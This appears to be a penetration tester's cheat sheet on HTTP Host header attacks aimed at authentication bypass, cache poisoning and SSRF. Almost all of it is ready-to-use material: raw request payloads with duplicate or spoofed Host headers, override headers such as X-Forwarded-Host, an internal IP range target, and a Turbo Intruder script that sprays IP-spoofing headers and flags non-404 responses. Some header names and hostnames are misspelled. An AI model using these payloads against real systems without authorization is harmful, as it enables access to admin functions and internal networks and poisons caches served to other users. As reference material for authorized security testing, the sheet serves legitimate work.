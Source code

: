 # Host Header

- Bypass Auth
- Cache Poisoning
- SSRF **Ensure to unchecked the auto-update host in intruder**

### Payloads

    GET /example HTTP/1.1
    Host: localost # get /admin
    
    GET /example HTTP/1.1
    Host: AAAA.vulnerable-website.com
    
    GET /example HTTP/1.1
    Host: legit.com
    Host: AAAA.com # test with .com and w/o
    
    GET /example HTTP/1.1
    Host: legit.com
     Host: AAAA.com
     
    GET https://legit.com/ HTTP/1.1
    Host: AAAA

    GET /example HTTP/1.1
    Host: legit.com
    X-Forwarded-Host: AAAA
    X-Host: AAAA
    X-Forwarded-Server: AAAA
    X-HTTP-Host-Override: AAAA
    Forwarded: AAAA
    
    GET /example HTTP/1.1
    Host: 192.168.0.1/24 # (intruder)
    
    GET /example HTTP/1.1
    Host: collab.burp # (intruder)
    

Turbo Intruder:

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    l = ["X-Originating-IP",
"X-Forwarded-For",
"X-Remote-IP",
"X-Remote-Addr",
"X-Client-IP",
"X-Host",
"X-Forwared-Host"]

    for h in l:
        engine.queue(target.req, [h, h])


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```
